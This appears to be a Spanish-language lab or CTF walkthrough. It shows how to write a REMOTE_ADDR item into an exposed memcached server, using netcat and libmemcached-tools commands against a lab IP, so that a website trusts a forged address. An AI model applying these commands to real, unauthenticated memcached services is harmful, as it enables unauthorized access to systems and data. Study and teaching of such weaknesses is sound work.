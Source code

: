 
### Abuso de escritura de items en `memcached`


#### Pasos previos | Preparación


Dentro de la enumeración se encontró que la versión de `memcached` y la información contenida al navegar al sitio expuesto coincidía por lo que bajo la suposición de que estos dos interactuan entre sí y de no haber encontrado el item `REMOTE_ADDR` como lo indica el sitio web se puede intentar guardando este item con el valor de la IP correspondiente.

**Sintaxis**

```bash
set key flags exptime bytes
value 
```

**Uso**

```bash
set REMOTE_ADDR 0 2592000 4
test
```

*Referencia: https://www.tutorialspoint.com/memcached/memcached_set_data.htm*

Al tener problemas de interacción directa para configurar los valores se encontraron otras alternativas funcionales.


##### Método 1


**Comando**

`echo -e 'set REMOTE_ADDR 0 2592000 4\r\ntest\r' | nc -nv -w 1 10.0.100.142 11211`

![exploit_1](./images/exploit_1.png)

1. Ejecución.
2. Validación de existencia (cuando antes no se desplegaba el item 1).
3. Obtención de valor de valor.


##### Método 2


El paquete `libmemcached-tools` cuenta con utilidades para interactuar con conexiones de `memcached`. Haciendo uso de `memccp` se puede copiar un valor pasando como parámetro el archivo con el valor que se piensa ocupar y haciendo uso de `memcat` para la visualización de los valores de los items.

```bash
sudo apt install libmemcached-tools
echo -n "test2" > REMOTE_ADDR
memccp --servers=10.0.100.142 REMOTE_ADDR
memccat --servers=10.0.100.142 REMOTE_ADDR
```

![exploit_2](./images/exploit_2.png)

